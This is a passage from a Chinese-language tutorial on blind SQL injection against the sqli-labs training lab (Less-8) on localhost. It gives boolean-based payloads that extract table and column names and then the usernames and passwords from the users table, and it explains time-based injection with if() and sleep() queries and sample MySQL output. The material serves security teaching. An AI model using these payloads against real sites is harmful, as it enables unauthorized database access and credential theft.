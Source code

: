 可以使用如下脚本猜解数据库名字：

![21.jpg](http://www.myh0st.cn/usr/uploads/2017/12/2911092061.jpg)

- 获取表长度

```
http://127.0.0.1/sqli-labs/Less-8/?id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)>0 %23
```

发现当值为6的时候，页面就没有显示。那么说明表的长度是6

- 获取表名

和上面类似，只需要把payload修改为下面即可：

```
http://127.0.0.1/sqli-labs/Less-8/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),{0},1))>{1} %23
```

- 获取列名

```
payload =  "http://127.0.0.1/sqli-labs/Less-8/?id=1' and ascii(substr((select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),{0},1))>{1} %23"
```

- 获取内容

```
payload =  "http://127.0.0.1/sqli-labs/Less-8/?id=1' and ascii(substr((select username from users limit 0,1),{0},1))>{1} %23"

payload =  "http://127.0.0.1/sqli-labs/Less-8/?id=1' and ascii(substr((select password from users limit 0,1),{0},1))>{1} %23"
```

### 基于时间盲注

基于的原理是，当对数据库进行查询操作，如果查询的条件不存在，语句执行的时间便是0.但往往语句执行的速度非常快，线程信息一闪而过，得到的执行时间基本为0。但是如果查询语句的条件不存在，执行的时间便是0，利用该函数这样一个特殊的性质，可以利用时间延迟来判断我们查询的是否存在。这便是SQL基于时间延迟的盲注的工作原理

首先理解一下下面的语句：

```
if(database()=’security’,1,2)
```

判断数据库名是否为security，正确返回1，错误返回2。基于时间的注入和基于布尔差不多，引入了if语句进行判断。

```
mysql> select if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>117,sleep(5),NULL) m;
```

![22.png](http://www.myh0st.cn/usr/uploads/2017/12/415526396.png)

```
1 row in set (0.00 sec)
mysql> select if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(5),NULL) m;

1 row in set (5.00 sec)
```
